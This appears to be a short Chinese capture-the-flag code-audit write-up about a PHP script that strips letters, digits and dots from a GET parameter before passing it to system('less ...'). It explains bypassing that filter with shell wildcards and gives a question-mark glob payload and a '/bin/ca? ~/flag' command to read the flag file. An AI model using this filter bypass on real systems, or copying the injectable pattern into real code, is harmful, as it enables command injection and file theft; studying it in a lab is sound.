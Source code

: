 16165161


165
链接: https://t.zsxq.com/VrnQjeY

```
<?php
本地flag路径为 /data/sublime/php/audit/3/flag.txt

function waf($file){
    return preg_replace('/[a-z0-9.]/i', '', "$file");
}


$filename = $_GET['file'];
$file = waf($filename);
echo $file;
system('less '.$file);
```

过滤了`a-z0-9.` 这些字符，那么思路就应该是考察linux的通配符的问题了，查了一下linux的通配符


* - 通配符,代表任意字符(0到多个)

? - 通配符,代表一个字符

因此可以构造如下

		$filename = '/????/???????/???/?????/?/*'

`当然中间几个?可以用*来代替`，但是这样匹配的内容很很多


```
system('/bin/ca? ~/flag');
```
> 另外要注意 cat本身命令是无法用?代替的，只能是绝对路径 `/bin/cat`

